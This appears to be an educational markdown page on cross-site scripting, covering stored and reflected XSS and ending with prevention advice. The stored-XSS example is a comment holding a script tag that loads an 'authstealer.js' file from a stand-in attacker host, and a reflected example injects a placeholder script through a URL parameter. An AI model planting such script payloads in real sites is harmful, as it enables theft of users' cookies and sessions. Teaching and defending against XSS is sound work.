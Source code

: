 ## XSS (Cross Site Scripting)

XSS attacks are a type of injection in which malicious scripts are injected into benign/trusted websites. Occurs when an attacker uses a vulnerable web application to send malicious code, generally in the form of browser side script, to end users. This can happen anywhere when a web application uses input within the output it generates without validating or encoding it.

Browsers have no way to know that the script should not be trusted and hence, will execute script. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. Allows the attacker to carry out any actions the user is able to perform.

<img src="./_snapshots/XSS.png">

## XSS Types

### Stored (Persistent)

Stored XSS occurs when a malicious script is injected directly into a vulnerable web application and permanently stored. Most frequent targets are websites that allow users to share content/comments/messages (blogs, videos, social networks). Each time the infected page is viewed, the malicious script is transmitted to the victim's browser.

For instance, if an e-commerce website allows users to embed HTML in the comments section, the embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code everytime the page is opened.

```
Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.
```

### Reflected

Reflected XSS are those where the injected script is reflected off the web server, such as in an error message, search results, or other response that includes some or all of the input sent to the server as part of the request. Attacks are delivered to victims viat another route, such as an email message or malicious link. The injected code travels to the vulnerable website, which reflects the attack back to the user's browser.

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>

https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

## Prevention/Mitigation

### Filter input on arrival

At the point where user input is received, filter as strictly as possible based on what is expected or valid input.

### Encode data on output

If user-controlled data is output in HTTP responses, encode the output to prevent it from being interpreted as active content.

### Use appropriate response headers

To prevent XSS in HTTP responses that are not intended to contain HTML/JS, can use Content-Type and X-Content-Type-Options headers to ensure browsers interpret responses correctly.

